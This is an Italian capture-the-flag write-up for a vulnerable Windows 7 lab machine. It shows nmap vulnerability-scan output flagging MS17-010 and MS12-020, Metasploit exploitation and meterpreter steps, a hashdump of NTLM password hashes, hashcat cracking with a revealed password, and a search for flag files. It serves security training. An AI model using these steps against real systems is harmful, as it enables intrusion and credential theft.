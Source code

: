 
![](images/image1.png)

# Introduzione

## Sistema operativo

Windows

# Enumeration

## nmap

```bash
root@ip-10-10-206-243:~\# nmap -sC -sV --script vuln 10.10.65.208Starting Nmap 7.60 ( https://nmap.org ) at 2022-01-16 14:29 GMT  
Nmap scan report for ip-10-10-65-208.eu-west-1.compute.internal (10.10.65.208)  
Host is up (0.00040s latency).  
Not shown: 991 closed ports  
PORT      STATE SERVICE       VERSION  
135/tcp   open  msrpc         Microsoft Windows RPC  
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn  
445/tcp   open  microsoft-ds  Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)  
3389/tcp  open  ms-wbt-server Microsoft Terminal Service  
| rdp-vuln-ms12-020:  
|   VULNERABLE:  
|   MS12-020 Remote Desktop Protocol Denial Of Service Vulnerability  
|     State: VULNERABLE  
|     IDs:  CVE:CVE-2012-0152  
|     Risk factor: Medium  CVSSv2: 4.3 (MEDIUM) (AV:N/AC:M/Au:N/C:N/I:N/A:P)  
|           Remote Desktop Protocol vulnerability that could allow remote attackers to cause a denial of service.  
|            
|     Disclosure date: 2012-03-13  
|     References:  
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020  
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0152  
|    
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability  
|     State: VULNERABLE  
|     IDs:  CVE:CVE-2012-0002  
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)  
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.  
|            
|     Disclosure date: 2012-03-13  
|     References:  
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020  
|\_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002  
|\_ssl-ccs-injection: No reply from server (TIMEOUT)  
|\_sslv2-drown:  
49152/tcp open  msrpc         Microsoft Windows RPC  
49153/tcp open  msrpc         Microsoft Windows RPC  
49154/tcp open  msrpc         Microsoft Windows RPC  
49158/tcp open  msrpc         Microsoft Windows RPC  
49160/tcp open  msrpc         Microsoft Windows RPC  
MAC Address: 02:10:AC:A1:5D:77 (Unknown)  
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows  
  
Host script results:  
|\_samba-vuln-cve-2012-1182: NT\_STATUS\_ACCESS\_DENIED  
|\_smb-vuln-ms10-054: false|\_smb-vuln-ms10-061: NT\_STATUS\_ACCESS\_DENIED  
| smb-vuln-ms17-010:  
|   VULNERABLE:  
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)  
|     State: VULNERABLE  
|     IDs:  CVE:CVE-2017-0143  
|     Risk factor: HIGH  
|       A critical remote code execution vulnerability exists in Microsoft SMBv1  
|        servers (ms17-010).  
|            
|     Disclosure date: 2017-03-14  
|     References:  
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/  
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx  
|\_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 160.44 seconds
```

# Exploitation

1.  Con metasploit sfruttare la vulnerabilità ms17-010
2.  Ottenere la shell e fare CTRL+Z per metterla in background
3.  Convertire la shell in sessione meterpreter con questo modulo post:  
    post/multi/manage/shell\_to\_meterpreter
4.  `sessions -l` per vedere tutte le sessioni
5.  `getsystem` per vedere se abbiamo ottenuto alti privilegi
6.  con il comando `shell` si può ottenere una shell pura
7.  con il comando `hashdump` si ottengono gli hash delle password degli utenti


    Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

8.  Usare hashcat per craccare la password:  
    `hashcat -m 1000 hash /usr/share/wordlists/rockyou.txt`
9.  e poi per visualizzarla:  
    `hashcat -m 1000 hash /usr/share/wordlists/rockyou.txt –show ffb43f0de35be4d9917ac0cc8ad57f8d:alqfna22`
10.  Per cercare i flag si torna sulla shell meterpreter:  
```bash  
 meterpreter > search -f flag\*.txt

Found 3 results...

    c:\\flag1.txt (24 bytes)

    c:\\Users\\Jon\\Documents\\flag3.txt (37 bytes)

    c:\\Windows\\System32\\config\\flag2.txt (34 bytes)
```
  

Privilege escalation

Non necessaria, l’exploit mi faceva già essere SYSTEM
